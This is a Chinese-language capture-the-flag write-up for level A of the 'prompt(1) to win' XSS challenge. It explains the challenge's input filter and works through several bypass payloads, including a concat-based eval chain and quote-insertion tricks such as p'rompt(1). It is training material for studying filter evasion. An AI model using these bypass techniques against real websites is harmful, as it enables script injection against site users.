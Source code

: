 ## [[prompt(1) to win](http://prompt.ml)] [[Level A - (╯°□°）╯︵ ┻━┻](http://prompt.ml/10)] [[解题报告](http://exp-blog.com/2019/03/24/pid-3706/)]

------

## 题目

```javascript
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
```

## 解题报告

题目对输入内容**依次**做了三段过滤：

- 使用 `encodeURIComponent` 做 URL 编码
- 把 `prompt` 换成了 `alert`
- 过滤了所有单引号 `'`

虽然输入内容直接在 `<script>` 里面，但是要把 `prompt` 成功写入的方法似乎都失效了。

因为除了 `a-z`、 `A-Z`、`0-9`、 `.`、 `(`、 `)`、 `!`、 `~`、 `*` 这些字符，其他都几乎被过滤了。

------------


我最开始想到，JS 解析器在解析标识符名称时（如函数名、属性名）等，若遇到 Unicode 会直接进行解码，并使得标识符依旧生效。于是构造了这个 payload `\u0070\u0072\u006f\u006d\u0070\u0074(1)` 绕过 `replace` 以在前端直接构造 `prompt(1)` , 但是 `\` 被 `encodeURIComponent` 转码成了 `%5C` ，失败。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/01.png)

后来又想到 `eval` 函数，于是构造这个 payload  `eval(String.fromCharCode(112,114,111,109,112,116,40,49,41))` 

期望可以绕过 `replace` 逐字符构造 `prompt(1)` ，但是 `,` 被 `encodeURIComponent` 转码成了 `%2C` ，还是失败。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/02.png)

不过转念一想，既然不能用逗号 `,` 拼接字符，那么直接用 `concat` 函数就可以了。

于是重新构造 payload 如下，完成挑战：

```javascript
eval(String.fromCharCode(112).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(String.fromCharCode(49)).concat(String.fromCharCode(41)))
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/03.png)

------------

其实这题想多了反而复杂，有一个更简单的方法是 **利用题目自身的逻辑过滤去绕过**。

题目首先把 `prompt` 替换成 `alert` ， 然后又把单引号 `'` 替换成空。

那么其实只需要把单引号 `'` 插到 `prompt` 中间的任意位置就可以绕过所有过滤了。。。

所以这些 payload 都是可以完成挑战的：

- `p'rompt(1)`
- `pr'ompt(1)`
- `pro'mpt(1)`
- `prom'pt(1)`
- `promp't(1)`
- `p'r'o'm'p't(1)`

因为这些字符本身属于保留字符，不会被 `encodeURIComponent` 编码；其次 `prompt` 中间有单引号 `'` 的时候，也不满足 `replace` 的条件；最后题目还很贴心地帮我们把所有单引号 `'` 删掉了，，，，所以有时其实真是我们想太多了。。。(╯°□°）╯︵ ┻━┻

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
